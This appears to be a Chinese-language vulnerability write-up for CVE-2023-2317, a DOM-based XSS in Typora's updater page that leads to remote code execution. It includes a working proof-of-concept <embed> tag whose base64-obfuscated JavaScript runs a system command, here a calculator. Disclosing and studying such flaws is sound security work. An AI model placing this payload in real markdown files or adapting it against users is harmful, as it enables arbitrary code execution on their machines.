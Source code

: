 # 基于Typora DOM的跨站点脚本导致远程代码执行（CVE-2023-2317）


# 基于Typora DOM的跨站点脚本导致远程代码执行（CVE-2023-2317）

## 漏洞简介

Windows和Linux版本1.6.7之前的Typora中updater/update.html中基于DOM的XSS允许特制的markdown文件通过加载在Typora主窗口的上下文中运行任意JavaScript代码`typora://app/typemark/updater/update.html`在＜embed＞标记中。如果用户在Typora中打开恶意降价文件，或者从恶意网页复制文本并将其粘贴到Typora，则可以利用此漏洞。

```html
<embed src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ'))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]"></embed>
```

## 漏洞复现
https://mp.weixin.qq.com/s/Jssc5eW7FVcyWPL9IVHr9g

